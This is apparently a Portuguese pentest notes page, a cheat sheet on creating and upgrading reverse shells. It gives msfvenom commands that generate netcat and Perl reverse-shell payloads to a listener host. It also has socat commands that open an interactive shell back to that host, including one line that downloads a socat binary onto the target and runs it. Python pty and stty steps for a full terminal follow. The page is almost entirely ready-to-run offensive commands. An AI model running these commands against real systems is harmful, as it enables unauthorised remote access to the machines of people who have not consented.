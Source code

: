 ```yaml
---
tags:
  - comandos
  - linux
  - utilitário
  - shell
  - tty
  - bash
date: 2025-03-30T14:32:00
author: Samuel Cardoso
cssclasses:
  - center-images
  - center-titles
---
```


# 🖥️ Programas com Shells comuns**

> 📌 **Descrição:**  
> Quando pegamos uma Reverse Shell simples, nem todos os recursos ficam liberados e disponíveis. Isto faz com que os demais processos relacionados ao Pentest demorem mais. Alguns dos recursos limitados são:
> - STDERR não é mostrado
> - Não é possível usar VIM
> - Comandos como `su` ou `ssh` não são acessíveis
> - Sem controle sobre histórico, tab-complete, etc

---

## 📂 **1. Gerando uma Reverse Shell com msfvenom

#### 1.1. Gerando reverse com Netcat

```bash
msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.3.4 LPORT=4444 R
```

#### 1.2. Gerando reverse com Perl

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=10.0.3.4 LPORT=4444 R
```

---
# 🐚 2. Upgrading Shell

#### 2.1. Upgrading Shell com Python

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### 2.2. Upgrading Shell com Socat

Na máquina Kali:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

Na máquina alvo:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

Se o `socat` não estiver instalado, podemos tentar executar o upgrade enquanto baixamos o `socat` pelo github

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

#### 2.3. Upgrading Shell com Netcat/Magic

Comaçamos chamando um PTY como no primeiro comando, mas deixamos ele em segundo plano usando o `CTRL+Z`

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Agora, vamos visualizar as configurações atuais do STTY para que consigamos deixar ambos estejam equivalentes

```bash
echo $TERM
stty -a
```

Enquanto o STTY ainda está em background, vamos definir a STTY atual para `raw`

```bash
stty raw -echo
```

agora execute os dois comandos

```bash
fg
reset
```

por final, fazendo o STTY que voltou com o `fg` equivaler ao STTY do Kali

```bash
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```

Em resumo:

```bash
# In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

---

